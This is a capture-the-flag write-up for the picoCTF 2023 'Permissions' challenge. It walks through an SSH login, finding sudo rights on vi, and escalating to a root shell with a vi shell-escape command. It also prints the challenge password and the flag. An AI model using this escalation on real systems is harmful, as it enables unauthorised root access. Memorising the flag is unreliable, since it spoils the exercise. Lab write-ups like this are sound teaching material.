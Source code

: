 # Permissions

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: Geoffrey Njogu

Description

Can you read files in the root file? The system admin has provisioned an account for you on the main server: `ssh -p 53645 picoplayer@saturn.picoctf.net` Password: `Sd9KYTm5kr` Can you login and read the root file?

## Find the flag

**Let's SSH into the instance!**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.16|15:07:21(HKT)]
└> ssh -p 53645 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:53645 ([13.59.203.175]:53645)' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:53645' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
picoplayer@challenge:~$ whoami;hostname;id
picoplayer
challenge
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
```

Now, the challenge's description said:

> "Can you read files in the root file?"

**Armed with above information, we can list our user's sudo permisson:**
```shell
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

As you can see, **we can run `/usr/bin/vi` as root!**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo), we can escalate our privilege to root via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316151145.png)

**Let's do that!**
```shell
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/bash' /dev/null

root@challenge:/home/picoplayer# whoami;hostname;id
root
challenge
uid=0(root) gid=0(root) groups=0(root)
```

Boom! I'm root!

**Let's `cat` the flag!**
```shell
root@challenge:/home/picoplayer# ls -lah /root
total 16K
drwx------ 1 root root   22 Mar 16 07:12 .
drwxr-xr-x 1 root root   63 Mar 16 07:06 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  664 Mar 16 07:12 .viminfo
root@challenge:/home/picoplayer# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```

- **Flag: `picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}`**

## Conclusion

What we've learned:

1. Vertical Privilege Escalation Via `vi` SUID Binary